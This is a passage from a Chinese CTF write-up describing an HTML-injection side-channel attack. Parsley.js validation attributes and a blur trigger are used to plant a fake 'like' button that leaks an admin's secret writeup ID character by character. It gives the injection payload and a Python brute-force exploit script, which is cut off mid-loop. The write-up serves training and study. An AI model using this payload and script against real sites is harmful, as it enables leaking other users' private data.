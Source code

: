     标签：input；类型：按钮；id：like

2.  我们的核心逻辑是依据错误提示的显示位置不同来确定Writeup ID，能够这么做的前提是表单验证肯定得触发。这个前面也提到过是由data-parsley-trigger=””来决定的，触发事件填到引号内。

    触发事件有很多：`load`、`scroll`、`select`、`submit`、`ready`、`focus`、`blur`等等

    参考：`https://www.w3school.com.cn/jquery/jquery_ref_events.asp`

    我们这里使用的是`blur`事件。blur顾名思义就是模糊嘛，或者说失去焦点。就是这里有一个输入框，光标挪到了输入框外面，就触发blur事件。

    以这道题为例，Selenium在访问网页时正常情况下光标肯定不可能一直在那个小输入框框里面，所以Blur事件是能够触发的。

总结一下，我们用户这边提交给admin的内容是这样的：

Payload

```
<form data-parsley-validate>
<input 
data-parsley-required  //必填项
data-parsley-trigger="blur"  //触发方式为输入框光标失去焦点
data-parsley-error-message="<input type=button id=like>" //错误提示为一个假按钮
data-parsley-errors-container="a[href^='/show.php?id={writeupid_part + j}']"  //错误提示显示位置为a标签后（如果存在的话）
autofocus //当页面加载时input元素自动获得焦点 >
</form> 
```

exp如下：

```
import requests
import time
import sys

def main(host, port):
    s = requests.Session()
    base_url = f"http://{host}:{port}/"
    res = s.get(base_url)
    pos = res.text.find('name="c" value="') + len('name="c" value="')
    csrftoken = res.text[pos:pos+16]

    ss = "0123456789abcdef"
    flag = ""

    for i in range(16):
        for j in ss:
            print("trying",j)
            payload = f'''<form data-parsley-validate>
                      <input data-parsley-required
                      data-parsley-trigger=\"blur\"
                      data-parsley-error-message=\"<input type=button id=like>\"
                      data-parsley-errors-container=\"a[href^=\'/show.php?id={flag + j}\']\"
                      autofocus>
                      </form>'''
            data = {'c': csrftoken, 'content': payload}
            res = s.post(base_url + "add.php", data=data, allow_redirects=False)

            location = res.headers['Location']
            pos = location.find('id=') + 3
            wp = location[pos:]
            data = {'c': csrftoken, 'id': wp}
            res = s.post(base_url + "admin.php", data=data)
            time.sleep(3)

            res = s.get(f"http://{host}:{port}/show.php?id={wp}")
            txt = res.text.replace("\n", "").replace("\r", "")
            if "Liked by</h3>admin" not in txt:
```